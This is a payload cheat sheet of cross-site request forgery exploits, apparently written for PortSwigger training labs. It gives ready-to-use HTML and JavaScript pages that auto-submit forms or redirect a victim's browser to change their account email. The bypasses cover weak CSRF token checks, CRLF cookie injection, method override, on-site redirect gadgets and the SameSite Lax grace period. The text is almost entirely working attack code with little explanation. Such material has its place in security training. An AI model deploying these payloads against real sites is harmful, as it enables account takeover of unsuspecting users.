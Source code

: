 CSRF TOKEN NOT TIED TO SINGLE SESSION COOKIE
```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="victim@gothacked">
            <input required type="hidden" name="csrf" value="CSRF">
            <button type="submit">Update Email</button>
        </form>
        <script>document.forms[0].submit()</script>
    </body>
</html>
```

CSRF TOKEN IS VALIDATED ONLY IF PRESENT, IF OMITTED THERE IS NO CONTROL
```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
        <input required type="email" name="email" value="victim@yougothacked">
        <button type="submit">Update email</button>
    <script>document.forms[0].submit()</script>
    </body>
</html>
```

CSRF TOKEN CONTROL IS IMPLEMENTED ONLY ON POST REQUEST, SWITCHING TO GET METHOD AND STRIPPING THE CSRF PARAMETER FROM THE URL DOES BYPASS THE CONTROL
```html
<html>
    <body>
        <img src="URL/my-account/change-email?email=victim%40gothacked" onerror=alert(1)>
    </body>
</html>
```

CSRF TOKEN CONTROL DUPLICATED IN A COOKIE AND SOME USER INPUT IS REFLECTED IN THE SET-COOKIE HEADER
```html
<html>
    <body>
        <img src="URL/?search=test%0D%0ASet-Cookie%3A%20csrf%3Dfakecsrf%3B%20SameSite%3DNone" onerror=document.forms[0].submit()>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="victim@yougothacked">
            <input required type="hidden" name="csrf" value="fakecsrf">
            <button type="submit">Update Email</button>
        </form>
    </body>
</html>
```


BYPASS SAME-SITE=LAX (NO CSRF TOKEN PRESENT) USING METHOD OVERRIDE
```html
<html>
    <body>
        <form action="https://URL/my-account/change-email" method="POST">
            <input type="hidden" name="httpMethod" value="GET">
            <input required type="email" name="email" value="yougot@hacked">
            <button type="submit">Submit</button>
        </form>
        <script>document.forms[0].submit()</script>
    </body>
</html>
```
Source: [sidechannel.blog](https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/)  

PORTSWIGGER VERSION
```html
<script>
    document.location="URL/my-account/change-email?email=youjustgot%40hacked&_method=POST"
</script>
```

BYPASS SAME-SITE=STRICT USING ON-SITE GADGETS (DOM OPEN-REDIRECT VULNERABLE OBJECTS)

```html
<script>
    document.location = "URL/post/comment/confirmation?postId=1/../../my-account/change-email?email=yougot%40hacked%26submit=1"
</script>
```

BYPASS SAME-SITE=LAX WITH NEWLY ISSUED COOKIES (120 SECONDS PERIOD OF GRACE FOR POSTS REQUEST) (csrf-lab09)

```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="youjustgot@hacked">
            <button type="submit">Submit</button>
        </form>

        <script>
            window.onclick= () => {
            window.open('https://0a3c000904d7333a802d94de00580052.web-security-academy.net/social-login');
            setTimeout(function(){
                document.forms[0].submit()
            }, 5000)
            }
        </script>
    </body>
</html>
```